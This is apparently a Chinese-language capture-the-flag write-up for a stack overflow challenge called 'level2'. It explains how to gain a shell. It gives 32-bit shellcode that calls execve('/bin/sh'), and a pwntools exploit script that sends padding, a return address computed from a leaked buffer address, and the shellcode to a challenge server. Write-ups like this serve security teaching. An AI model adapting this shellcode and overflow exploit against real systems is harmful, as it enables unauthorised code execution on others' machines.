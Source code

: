 # level2

### 分析
这道题目没有getflag函数，需要我们拿到shell后，得到flag。我们的解决方案是，自己写一段shellcode，这段代码，通过系统调用，执行"/bin/sh",便可以调用系统的shell。汇编这段代码，覆盖到栈上，让函数的返回地址指向它的首地址。shellcode可以通过题目给的buffer地址推算出。

### shellcode构造
[syscall_table](https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls32.html)
```
  call here
  .ascii "/bin/sh"
  .byte 0
here:
  pop ebx
  mov ecx, 0
  mov edx, 0
  mov eax, 11
  int 0x80
```
###### call here可以先把指令后面的地址压到栈上，再去执行here。pop ebx可以把刚压倒栈上的地址赋给ebx（地址指向"/bin/sh\x00"），让ecx，edx都为0，进行execve的系统调用即可。

### exp

```
from pwn import *
r = remote("pwn.sixstars.team", 22002)
sh = """
  call here
  .ascii "/bin/sh"
  .byte 0
here:
  pop ebx
  mov ecx, 0
  mov edx, 0
  mov eax, 11
  int 0x80
"""
sh = asm(sh)
buf = r.recv()
buf = buf[15:25]
buf = int(buf,16)
retaddr_buf = hex(buf)

shellcode = 'a'*0x28 + 'a'*4 + p32(buf+0x28+4+4) + sh

r.sendline(shellcode)
r.interactive()
```